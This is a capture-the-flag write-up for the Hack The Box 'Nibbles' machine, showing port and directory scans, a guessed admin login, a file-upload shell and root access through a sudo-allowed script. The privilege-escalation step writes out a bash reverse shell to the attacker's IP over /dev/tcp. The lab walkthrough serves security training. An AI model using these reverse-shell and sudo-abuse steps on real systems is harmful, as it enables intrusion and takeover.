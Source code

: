```yaml
---

title: 🟢 HTB - Nibbles
author: Acivik
date: 2025-01-24 14:00:00 +0300 
categories: [CTF, Hack The Box]
tags: [hackthebox, ctf, hacking, writeup, Nibbles, walkthrough, easy, linux]

---
```


![https://i.ibb.co/qCtZwN0/Nibbles.png](https://i.ibb.co/qCtZwN0/Nibbles.png)

---

# <span style="color:#AA0E1C"><b># Reconnaissance</b></span>

## <span style="color:#0096FF">Nmap</span>

nmap detected 2 open TCP ports: 22(ssh) and 80(http)

```bash
root@kali:~/HTB/nibbles# nmap -p- 10.10.10.75 --min-rate 10000 --open -Pn -sT
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 13:08 UTC
Nmap scan report for 10.10.10.75 (10.10.10.75)
Host is up (0.082s latency).
Not shown: 65267 closed tcp ports (conn-refused), 266 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.03 seconds
root@kali:~/HTB/nibbles# nmap -p22,80 --min-rate 1000 -sVC 10.10.10.75
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 13:09 UTC
Nmap scan report for 10.10.10.75 (10.10.10.75)
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
root@kali:~/HTB/nibbles#
```

# # Enumeration

## <span style="color:#0096FF">WebSite</span>

![https://i.ibb.co/fYqKrvG/Ekran-g-r-nt-s-2025-01-14-161144.png](https://i.ibb.co/fYqKrvG/Ekran-g-r-nt-s-2025-01-14-161144.png)

Let’s check source code of page

```bash
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

We found a directory name.

`/nibbleblog/` is the directory where the CMS is installed

![https://i.ibb.co/7XSLmRj/Ekran-g-r-nt-s-2025-01-14-161243.png](https://i.ibb.co/7XSLmRj/Ekran-g-r-nt-s-2025-01-14-161243.png)

We will perform directory scanning to discover more pages.

### <span style="color:#FFC300">Directory BruteForce</span>

```bash
root@kali:~/HTB/nibbles# dirsearch -u http://10.10.10.75//nibbleblog/

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/HTB/nibbles/reports/http_10.10.10.75/__nibbleblog__25-01-14_13-13-13.txt

Target: http://10.10.10.75/

[13:13:13] Starting: /nibbleblog/
[13:13:27] 301 -  321B  - //nibbleblog/admin  ->  http://10.10.10.75/nibbleblog/admin/
[13:13:28] 200 -  606B  - //nibbleblog/admin.php
[13:13:28] 200 -  517B  - //nibbleblog/admin/
[13:13:28] 301 -  332B  - //nibbleblog/admin/js/tinymce  ->  http://10.10.10.75/nibbleblog/admin/js/tinymce/
[13:13:28] 200 -  564B  - //nibbleblog/admin/js/tinymce/
[13:13:45] 301 -  323B  - //nibbleblog/content  ->  http://10.10.10.75/nibbleblog/content/
[13:13:45] 200 -  485B  - //nibbleblog/content/
[13:13:46] 200 -  724B  - //nibbleblog/COPYRIGHT.txt
[13:13:57] 200 -   92B  - //nibbleblog/install.php
[13:13:58] 200 -   92B  - //nibbleblog/install.php?profile=default
[13:14:00] 301 -  325B  - //nibbleblog/languages  ->  http://10.10.10.75/nibbleblog/languages/
[13:14:00] 200 -   12KB - //nibbleblog/LICENSE.txt
[13:14:13] 301 -  323B  - //nibbleblog/plugins  ->  http://10.10.10.75/nibbleblog/plugins/
[13:14:13] 200 -  694B  - //nibbleblog/plugins/
[13:14:16] 200 -    5KB - //nibbleblog/README
[13:14:26] 301 -  322B  - //nibbleblog/themes  ->  http://10.10.10.75/nibbleblog/themes/
[13:14:26] 200 -  498B  - //nibbleblog/themes/
[13:14:28] 200 -  815B  - //nibbleblog/update.php

Task Completed
root@kali:~/HTB/nibbles#
```

`/nibbleblog/update.php` -> version of cms: 4.0.3

![https://i.ibb.co/Qk7fGDP/Ekran-g-r-nt-s-2025-01-15-171656.png](https://i.ibb.co/Qk7fGDP/Ekran-g-r-nt-s-2025-01-15-171656.png)

`/nibbleblog/admin.php` -> admin login page

![https://i.ibb.co/rHkKqRg/Ekran-g-r-nt-s-2025-01-15-171843.png](https://i.ibb.co/rHkKqRg/Ekran-g-r-nt-s-2025-01-15-171843.png)

After some trial and error, the correct credential was found.

`admin:nibbles`

# <span style="color:#AA0E1C"><b># Foothold: Shell as nibbler</b></span>

When we logged in, there was an option to upload a file under the plugins tab.

![https://i.ibb.co/ZX8rzTX/Ekran-g-r-nt-s-2025-01-14-200739.png](https://i.ibb.co/ZX8rzTX/Ekran-g-r-nt-s-2025-01-14-200739.png)

This is where the file is uploaded:

http://10.10.10.75/nibbleblog/content/private/plugins/about/profile_picture.php

```bash
root@kali:~/HTB/nibbles# nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.10.75] 34958
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:21:21 up  4:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$
```

# <span style="color:#AA0E1C"><b># Privilege Escalation: nibbler → root</b></span>

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ cat /home/nibbler/personal/stuff/monitor.sh
cat: /home/nibbler/personal/stuff/monitor.sh: No such file or directory
nibbler@Nibbles:/home/nibbler$
```

We can run the monitor.sh file as root with the sudo command.

However, the specified file path does not exist.

```bash
nibbler@Nibbles:/home/nibbler$ mkdir -p /home/nibbler/personal/stuff/          
nibbler@Nibbles:/home/nibbler$ touch /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.41/4141 <&1'" > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
```

We created the file ourselves and ran it to escalate privileges.

```bash
root@kali:~/HTB/nibbles# nc -lnvp 4141
listening on [any] 4141 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.10.75] 37638
root@Nibbles:/home/nibbler#
```